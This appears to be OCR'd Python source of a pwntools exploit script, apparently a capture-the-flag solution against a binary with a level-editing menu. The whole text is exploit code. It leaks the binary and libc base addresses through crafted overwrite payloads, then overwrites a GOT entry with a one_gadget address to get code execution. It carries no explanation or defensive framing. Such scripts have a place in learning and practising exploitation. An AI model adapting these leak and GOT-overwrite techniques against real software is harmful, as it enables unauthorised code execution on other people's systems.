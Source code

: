 ```python
    base_addr = int(base_leak, 16) - base_offset
    validate_leaked_addresses(io, bin_base=base_addr)
    return base_addr

def libc_leak(io, libc_start_main_leak):
    with_offset_to_libc_start_main = libc_start_main_leak - 0x8 * 0x8
    reset(io)
    explore(io, b'0')
    edit_level(io, b'A'*0x20+b'B'*0x10+p64(with_offset_to_libc_start_main)+b'\x00'*8)
    reset(io)
    explore(io, b'1')
    explore(io, b'0')
    leak = test_level(io)[:19].split(b' Level data: ')[1]
    libc_leak = int.from_bytes(leak, byteorder='little')
    libc_leak_offset = 0x27280
    libc_base = libc_leak - libc_leak_offset
    validate_leaked_addresses(io, libc_base=libc_base)
    return libc_base

def preps(io):
    create_level(io, b'0')
    create_level(io, b'1')
    create_level(io, b'2')
    explore(io, b'0')
    edit_level(io, b'A'*0x10)
    reset(io)
    explore(io, b'1')
    create_level(io, b'0')

def overwrite_got(io, got_addr):
    target_entry_got = 7
    got_target = got_addr - (0x8 * 0x8) + (0x8 * target_entry_got)
    reset(io)
    explore(io, b'0')
    edit_level(io, b'A'*0x20+b'B'*0x10+p64(got_target)+b'\x00'*8)

    reset(io)
    explore(io, b'1')
    explore(io, b'0')

    one_gadget_offset = 0xd511f
    # one_gadget_offset = 0x4c139
    # one_gadget_offset = 0x4c140

    gadget_addr = libc.address + one_gadget_offset
    edit_level(io, p64(gadget_addr))
    io.sendline(b'-i\x00')

def main():
    io = start_conn()
    base_addr = base_leak(io)
    exe.address = base_addr

    got_offset = 0x4000
    got_addr = base_addr + got_offset

    libc_start_main_offset = 0x3FC0
    libc_start_main_leak = base_addr + libc_start_main_offset
    preps(io)
    libc_base = libc_leak(io, libc_start_main_leak)
    libc.address = libc_base

    overwrite_got(io, got_addr)
```